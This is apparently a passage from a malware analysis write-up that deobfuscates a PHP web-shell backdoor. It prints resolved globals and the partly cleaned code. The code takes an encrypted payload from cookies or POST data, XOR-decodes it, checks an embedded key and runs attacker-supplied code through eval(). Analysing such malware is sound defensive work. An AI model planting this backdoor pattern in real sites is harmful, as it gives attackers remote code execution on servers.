```php
  ["f2a1a8fff"] =>  array(0) {  }     // $_POST;
  ["la5c9338f"] =>  array(0) {  }     // $_COOKIE
  ["x864b367c"] =>  string(36) "d4a8745e-2599-49bc-b7e3-2b194ca49aef"
}
```

As expected we can now see following:

-   "gb2407": An int (578) - Possibly a counter or build number? (It
    does not seem to be used, but could be retrieved with a successful
    payload)
-   \"f884b\" : Inner concat reference string for generating the ID in
    "x864b367c"
-   Multiple PHP function names.
-   References to \$\_POST & \$\_COOKIE.
-   \"x864b367c\": ID generated from "f884b"

Next step is to do some search/replace on all the string concatenations,
replacing them with the corresponding resolved value:

```php
global $x864b367c;
function  r6971a($e76477, $qead07){
	global $rb22c05fb;
	$e112aa2d = "";
	for ($n28c=0; $n28c<$rb22c05fb['q46d1a5f1']($e76477);){
		for ($o70350cf=0; $o70350cf<$rb22c05fb['q46d1a5f1']($qead07) && $n28c<$rb22c05fb['q46d1a5f1']($e76477);$o70350cf++, $n28c++){
            $e112aa2d .= $rb22c05fb['ve58d5432']($rb22c05fb['m9298']($e76477[$n28c]) ^ $rb22c05fb['m9298']($qead07[$o70350cf]));
        }
    }
    return $e112aa2d;
}

function  b6ddf34f($e76477, $qead07){
    global $rb22c05fb;
    global $x864b367c;
    return $rb22c05fb['ka7b4d65']($rb22c05fb['ka7b4d65']($e76477, $x864b367c), $qead07);
}

foreach ($rb22c05fb['la5c9338f'] as $qead07=>$l0c59b){
    $e76477 = $l0c59b;
    $k93f152 = $qead07;
}

if (!$e76477){
    foreach ($rb22c05fb['f2a1a8fff'] as $qead07=>$l0c59b){
        $e76477 = $l0c59b;
        $k93f152 = $qead07;
    }
}

$e76477 = @$rb22c05fb['pc4fb4']($rb22c05fb['tdab3b']($rb22c05fb['l432c104']($e76477), $k93f152));

if (isset($e76477['ak']) && $x864b367c==$e76477['ak']){
    if ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][22]){
        $n28c = Array('pv' => @$rb22c05fb['m28921c1'](),'sv' => '1.0-1',);
        echo @$rb22c05fb['d0207a74']($n28c);
    }
    elseif ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][78]){
        eval/*v4c8*/($e76477[$rb22c05fb['f884b'][88]]);
    }
    exit();
}
```